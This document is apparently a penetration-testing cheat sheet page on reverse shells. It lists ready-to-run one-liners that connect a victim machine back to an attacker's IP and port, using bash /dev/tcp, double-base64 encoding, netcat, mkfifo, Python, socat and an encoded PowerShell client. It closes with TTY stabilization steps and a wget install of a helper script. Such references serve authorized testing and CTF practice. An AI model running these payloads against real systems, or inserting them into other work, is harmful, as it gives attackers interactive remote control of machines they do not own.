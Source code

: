 ```yaml
---
icon: book-skull
---
```


# Reverse Shells

## Reverse Shells

### Reverse Shell Generator

[https://www.revshells.com/](https://www.revshells.com/)

### Bash

{% tabs %}
{% tab title="Bash" %}
{% code overflow="wrap" %}
```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
{% endcode %}

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}
{% endtab %}

{% tab title="Base64" %}
We can encode the content in **base64**, to avoid conflicts with symbols and spaces in the URL. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

Generate the payload:

{% code overflow="wrap" %}
```bash
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64 | xargs -I{} echo "echo {}|base64 -d|base64 -d|bash"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python
```
{% endcode %}

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell

{% tabs %}
{% tab title="Base64" %}
Generate the payload:

{% code overflow="wrap" %}
```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le | base64 -w 0 | xargs echo "powershell -e"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Interactive TTY

{% tabs %}
{% tab title="Script" %}
```bash
script -qc bash /dev/null
```
{% endtab %}

{% tab title="Python" %}
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
{% endtab %}
{% endtabs %}

and then run:

```bash
# Press <Ctrl> + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```

#### Automatic Shell Stabilization

This script sets up a handler and automatically stabilizes Linux reverse shells. And for Windows machines uses `rlwrap` to allow command history, CTRL + L to clear the screen and other functions, also preventing CTRL + C from killing the session

{% embed url="https://github.com/NLXZ/pwnc/" %}

```sh
# Add it to your PATH
wget https://raw.githubusercontent.com/NLXZ/pwnc/refs/heads/main/pwnc.sh -O ~/.local/bin/pwnc
chmod +x ~/.local/bin/pwnc
```
